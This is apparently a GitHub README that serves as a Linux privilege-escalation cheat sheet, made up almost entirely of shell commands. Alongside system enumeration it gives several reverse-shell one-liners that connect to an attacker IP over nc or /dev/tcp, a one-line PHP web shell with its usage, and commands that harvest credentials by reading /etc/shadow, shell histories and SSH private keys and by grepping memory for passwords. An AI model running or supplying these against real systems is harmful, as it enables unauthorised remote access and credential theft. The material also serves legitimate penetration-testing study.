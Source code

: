 # Linux-LocalPrivilegeEsclation
This is good for those who don't know where to start when it comes to increasing privileges in "Linux" and looking for a simple, practical and professional cheat sheet.
You can increase the level of access from the mentioned techniques that are in the form of basic Linux topics.
enjoy! @__@
# Operating System(Distribution Type & Version)
### Debian Based(like Ubuntu):
```
lsb_release -a
cat /etc/os-release
cat /etc/issue
cat /etc/apt/sources.list
cat /etc/debian_version
```
### RedHat Based(like CentOs or Fedora):
```
cat /etc/redhat-release
cat /etc/*-release
* ~ put your Disturbution name.
```
### Arch Based(like Artix or Garuda):
```
cat /etc/os-release
cat /etc/lsb-release
```
### SUSE Based(like Tumleweed or Leap):
```
cat /etc/SuSE-release
cat /etc/os-release
```
### Slackware:
```
cat /etc/slackware-version
```
### Gentoo Based:
```
emerge --info | grep "repository:"
```
### Mandvira/Mageia:
```
cat /etc/mandriva-release
```
## Kernel and Architecture(x64|x86)
For All Distirbutions:
```
uname -srm
uname -a
ls /boot | grep vmlinuz
cat /proc/version
dmesg | grep Linux
```
## About The Environment
```
env
set
free
ss
df
du
lsblk
lsusb
lsmod
lspci
who
uptime
cat /etc/profile
cat /etc/bashrc
cat /etc/zshrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
```
# Application and Services
### Running Services Per User:
Contains values such as "Time", "PID" and etc:
```
ps aux
ps -ef
top
pstree
cat /etc/services
```
Here, we can limit the result and look for those services that are running by "root" and check for vulnerablities:
```
ps aux | grep root
ps -ef | grep root
```
### List of all apps(running & version):
```
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archives
ls -aRl /etc/ 
ls -alh /var/cache/yum/
```
### Any Schedule?
```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
### For Founded Text Files(Sensitive Info):
replace your word with *:
```
grep -i *
```
# Network Environment & Communications
### Network Configuration(DHCP, DNS, Forwarding, etc.):
```
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
```
### about MAC/IP:
```
arp -a
route
```
### A way for packet sniffing:
```
tcpdump
```
Hint: tcpdump tcp dst {ip} {port} and tcp dst {ip} {port}
### Take Reverse Shell:
you can use what you want.
you need static ip for this simple ways but there is some other ways if you don't have static ip address, like ngrok:

1. The first way:
```
nc -nlvp -p {port} # on the attacker system
nc {Attacker IP} {port} -e /bin/bash # on the target system
```
2. The second way:
```
nc -nlvp -p {port} # on the attacker system
mknod backpipe p && nc {Attacker IP} {port} 0<backpipe | /bin/bash 1>backpipe # on the target system
```
3. The third way:
```
nc -nlvp -p {port} # on the attacker system
/bin/bash -i > /dev/tcp/{Attacker IP}/{port} 0<&1 2>&1
```
4. The fourth way:
Here you need to make a file that has ".php" format for exmple in the taget system, here is the code:
```
<?=`$_GET[cmd]`?>
```
and you can use it like this:
```
ip/anything/file.php?cmd={here you have RCE}
```
so, after that you need to make python program(just example) for yourself in your computer(AttackerSystem) that make the request to the web server, parsing the response, and present it to you after that, how can you use it?
```
python rce.py 'ip/anything/file.php?cmd=hostname'
```
There are many ways to do this, but it depends on the conditions of the server you have.

### Who Am I? What Can I Do? All About The Access Level:

```
id    # GID, UID, Groups, Username 
who    # Time, Logged on Users
last    # User login and logout information
cat /etc/passwd | cut -d ":" -f 1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers    # Permissions and User Access
cat /etc/group    # Information About Groups
cat /etc/shadow    # User and Passwords(SHA256 or SHA512)
```
### Important And Sensitive Information:
Files That May Contain Passwords:
```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
cat ~/.bash_history
cat ~/.nano_history
cat ~/.zsh_history
cat ~/.mysql_history
cat ~/.php_history
cat ~/.bashrc    # User Info
cat ~/.profile    # User Info
cat /etc/security/opasswd # Old Passwords
strings /dev/mem -n10 | grep -i PASS    # In Memory Passwords
find / -name authorized_keys 2> /dev/null    # SSH Keys
find / -name id_rsa 2> /dev/null    # SSH Keys
```













